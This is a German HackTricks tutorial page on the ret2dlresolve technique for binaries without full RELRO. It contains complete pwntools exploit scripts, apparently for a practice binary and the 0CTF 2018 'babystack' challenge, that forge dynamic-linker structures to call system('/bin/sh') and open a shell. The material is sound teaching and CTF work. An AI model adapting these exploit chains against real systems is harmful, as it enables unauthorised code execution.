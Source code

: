 # Ret2dlresolve

{% hint style="success" %}
Lernen Sie AWS-Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen Sie GCP-Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositorys einreichen.

</details>
{% endhint %}

## Grundlegende Informationen

Wie auf der Seite über [**GOT/PLT**](../arbitrary-write-2-exec/aw2exec-got-plt.md) und [**Relro**](../common-binary-protections-and-bypasses/relro.md) erklärt, werden Binärdateien ohne Full Relro beim ersten Gebrauch Symbole auflösen (wie Adressen zu externen Bibliotheken). Diese Auflösung erfolgt durch Aufruf der Funktion **`_dl_runtime_resolve`**.

Die Funktion **`_dl_runtime_resolve`** nimmt vom Stapel Verweise auf einige Strukturen entgegen, die sie benötigt, um das angegebene Symbol aufzulösen.

Daher ist es möglich, **alle diese Strukturen zu fälschen**, um das dynamische Verknüpfen das angeforderte Symbol (wie die Funktion **`system`**) aufzulösen und mit einem konfigurierten Parameter aufzurufen (z. B. **`system('/bin/sh')`**).

Normalerweise werden all diese Strukturen gefälscht, indem eine **initiale ROP-Kette erstellt wird, die `read` aufruft** über einen beschreibbaren Speicher, dann werden die **Strukturen** und der String **`'/bin/sh'`** übergeben, damit sie von `read` an einem bekannten Ort gespeichert werden, und dann setzt die ROP-Kette fort, indem sie **`_dl_runtime_resolve`** aufruft, um die Adresse von `system` in den gefälschten Strukturen aufzulösen und diese Adresse mit der Adresse von `$'/bin/sh'` aufzurufen.

{% hint style="success" %}
Diese Technik ist besonders nützlich, wenn es keine Syscall-Gadgets gibt (um Techniken wie [**ret2syscall**](rop-syscall-execv/) oder [SROP](srop-sigreturn-oriented-programming/) zu verwenden) und es keine Möglichkeiten gibt, libc-Adressen preiszugeben.
{% endhint %}

Sehen Sie sich dieses Video für eine gute Erklärung dieser Technik in der zweiten Hälfte des Videos an:

{% embed url="https://youtu.be/ADULSwnQs-s?feature=shared" %}

Oder überprüfen Sie diese Seiten für eine schrittweise Erklärung:

* [https://www.ctfrecipes.com/pwn/stack-exploitation/arbitrary-code-execution/code-reuse-attack/ret2dlresolve#how-it-works](https://www.ctfrecipes.com/pwn/stack-exploitation/arbitrary-code-execution/code-reuse-attack/ret2dlresolve#how-it-works)
* [https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve#structures](https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve#structures)

## Angriffszusammenfassung

1. Fälschen von Strukturen an einem bestimmten Ort
2. Setzen des ersten Arguments von `system` (`$rdi = &'/bin/sh'`)
3. Setzen der Adressen zu den Strukturen auf dem Stapel, um **`_dl_runtime_resolve`** aufzurufen
4. Aufrufen von **`_dl_runtime_resolve`**
5. **`system`** wird aufgelöst und mit `'/bin/sh'` als Argument aufgerufen

Gemäß der [**pwntools-Dokumentation**](https://docs.pwntools.com/en/stable/rop/ret2dlresolve.html) sieht ein **`ret2dlresolve`**-Angriff wie folgt aus:
```python
context.binary = elf = ELF(pwnlib.data.elf.ret2dlresolve.get('amd64'))
>>> rop = ROP(elf)
>>> dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=["echo pwned"])
>>> rop.read(0, dlresolve.data_addr) # do not forget this step, but use whatever function you like
>>> rop.ret2dlresolve(dlresolve)
>>> raw_rop = rop.chain()
>>> print(rop.dump())
0x0000:         0x400593 pop rdi; ret
0x0008:              0x0 [arg0] rdi = 0
0x0010:         0x400591 pop rsi; pop r15; ret
0x0018:         0x601e00 [arg1] rsi = 6299136
0x0020:      b'iaaajaaa' <pad r15>
0x0028:         0x4003f0 read
0x0030:         0x400593 pop rdi; ret
0x0038:         0x601e48 [arg0] rdi = 6299208
0x0040:         0x4003e0 [plt_init] system
0x0048:          0x15670 [dlresolve index]
```
## Beispiel

### Reines Pwntools

Sie können ein [**Beispiel dieser Technik hier finden**](https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve/exploitation) **mit einer sehr guten Erklärung der finalen ROP-Kette**, aber hier ist der endgültige Exploit, der verwendet wird:
```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = elf.process()
rop = ROP(elf)

# create the dlresolve object
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['/bin/sh'])

rop.raw('A' * 76)
rop.read(0, dlresolve.data_addr) # read to where we want to write the fake structures
rop.ret2dlresolve(dlresolve)     # call .plt and dl-resolve() with the correct, calculated reloc_offset

log.info(rop.dump())

p.sendline(rop.chain())
p.sendline(dlresolve.payload)    # now the read is called and we pass all the relevant structures in

p.interactive()
```
### Roh
```python
# Code from https://guyinatuxedo.github.io/18-ret2_csu_dl/0ctf18_babystack/index.html
# This exploit is based off of: https://github.com/sajjadium/ctf-writeups/tree/master/0CTFQuals/2018/babystack

from pwn import *

target = process('./babystack')
#gdb.attach(target)

elf = ELF('babystack')

# Establish starts of various sections
bss = 0x804a020

dynstr = 0x804822c

dynsym = 0x80481cc

relplt = 0x80482b0

# Establish two functions

scanInput = p32(0x804843b)
resolve = p32(0x80482f0) #dlresolve address

# Establish size of second payload

payload1_size = 43

# Our first scan
# This will call read to scan in our fake entries into the plt
# Then return back to scanInput to re-exploit the bug

payload0 = ""

payload0 += "0"*44                        # Filler from start of input to return address
payload0 += p32(elf.symbols['read'])    # Return read
payload0 += scanInput                    # After the read call, return to scan input
payload0 += p32(0)                        # Read via stdin
payload0 += p32(bss)                    # Scan into the start of the bss
payload0 += p32(payload1_size)            # How much data to scan in

target.send(payload0)

# Our second scan
# This will be scanned into the start of the bss
# It will contain the fake entries for our ret_2_dl_resolve attack

# Calculate the r_info value
# It will provide an index to our dynsym entry
dynsym_offset = ((bss + 0xc) - dynsym) / 0x10
r_info = (dynsym_offset << 8) | 0x7

# Calculate the offset from the start of dynstr section to our dynstr entry
dynstr_index = (bss + 28) - dynstr

paylaod1 = ""

# Our .rel.plt entry
paylaod1 += p32(elf.got['alarm'])
paylaod1 += p32(r_info)

# Empty
paylaod1 += p32(0x0)

# Our dynsm entry
paylaod1 += p32(dynstr_index)
paylaod1 += p32(0xde)*3

# Our dynstr entry
paylaod1 += "system\x00"

# Store "/bin/sh" here so we can have a pointer ot it
paylaod1 += "/bin/sh\x00"

target.send(paylaod1)

# Our third scan, which will execute the ret_2_dl_resolve
# This will just call 0x80482f0, which is responsible for calling the functions for resolving
# We will pass it the `.rel.plt` index for our fake entry
# As well as the arguments for system

# Calculate address of "/bin/sh"
binsh_bss_address = bss + 35

# Calculate the .rel.plt offset
ret_plt_offset = bss - relplt


paylaod2 = ""

paylaod2 += "0"*44
paylaod2 += resolve                 # 0x80482f0
paylaod2 += p32(ret_plt_offset)        # .rel.plt offset
paylaod2 += p32(0xdeadbeef)            # The next return address after 0x80482f0, really doesn't matter for us
paylaod2 += p32(binsh_bss_address)    # Our argument, address of "/bin/sh"

target.send(paylaod2)

# Enjoy the shell!
target.interactive()
```
## Weitere Beispiele & Referenzen

* [https://youtu.be/ADULSwnQs-s](https://youtu.be/ADULSwnQs-s?feature=shared)
* [https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve](https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve)
* [https://guyinatuxedo.github.io/18-ret2\_csu\_dl/0ctf18\_babystack/index.html](https://guyinatuxedo.github.io/18-ret2\_csu\_dl/0ctf18\_babystack/index.html)
* 32-Bit, kein Relro, kein Canary, NX, kein PIE, grundlegender kleiner Pufferüberlauf und Rückgabe. Um sie auszunutzen, wird der Pufferüberlauf verwendet, um erneut `read` mit einem `.bss`-Abschnitt und einer größeren Größe aufzurufen, um dort die gefälschten `dlresolve`-Tabellen zu speichern, um `system` zu laden, zur Hauptfunktion zurückzukehren und den ursprünglichen Pufferüberlauf erneut zu missbrauchen, um dlresolve aufzurufen und dann `system('/bin/sh')` auszuführen.
